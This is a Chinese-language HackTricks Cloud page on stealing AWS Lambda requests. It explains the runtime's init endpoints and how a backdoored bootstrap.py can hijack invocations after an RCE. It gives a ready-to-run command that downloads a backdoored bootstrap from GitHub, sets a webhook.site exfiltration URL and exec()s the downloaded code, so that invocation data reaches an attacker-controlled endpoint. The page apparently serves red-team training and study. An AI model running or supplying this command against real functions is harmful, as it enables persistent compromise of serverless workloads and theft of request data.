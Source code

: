 # AWS - 偷取 Lambda 请求

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Lambda 流程

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** 是一个在容器外部的进程，**发送** **调用** 到 **init** 进程。
2. init 进程监听端口 **9001**，暴露一些有趣的端点：
* **`/2018-06-01/runtime/invocation/next`** – 获取下一个调用事件
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 返回调用的处理程序响应
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 返回执行错误
3. **bootstrap.py** 有一个循环从 init 进程获取调用并调用用户代码来处理它们 (**`/next`**).
4. 最后，**bootstrap.py** 将 **响应** 发送给 init

注意，bootstrap 将用户代码作为模块加载，因此用户代码执行的任何代码实际上都是在此进程中发生的。

## 偷取 Lambda 请求

此攻击的目标是使用户代码在处理易受攻击请求的 **`bootstrap.py`** 进程内部执行恶意 **`bootstrap.py`** 进程。这样，**恶意 bootstrap** 进程将开始 **与 init 进程通信** 以处理请求，而 **合法** 的 bootstrap 被 **困住** 运行恶意进程，因此它不会向 init 进程请求。

这是一项简单的任务，因为用户的代码是由合法的 **`bootstrap.py`** 进程执行的。因此攻击者可以：

* **向 init 进程发送当前调用的假结果**，使 init 认为 bootstrap 进程正在等待更多调用。
* 必须向 **`/${invoke-id}/response`** 发送请求
* invoke-id 可以通过使用 [**inspect**](https://docs.python.org/3/library/inspect.html) python 模块从合法的 **`bootstrap.py`** 进程的堆栈中获取（如 [这里所提议的](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)）或再次请求 **`/2018-06-01/runtime/invocation/next`**（如 [这里所提议的](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)）。
* 执行恶意 **`boostrap.py`**，它将处理下一个调用
* 为了隐蔽性，可以将 lambda 调用参数发送到攻击者控制的 C2，然后像往常一样处理请求。
* 对于此攻击，只需从系统或 [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) 获取原始的 **`bootstrap.py`** 代码，添加恶意代码并从当前 lambda 调用中运行它即可。

### 攻击步骤

1. 找到一个 **RCE** 漏洞。
2. 生成一个 **恶意** **bootstrap**（例如 [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py)）
3. **执行** 恶意 bootstrap。

您可以轻松地通过运行以下命令来执行这些操作：
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
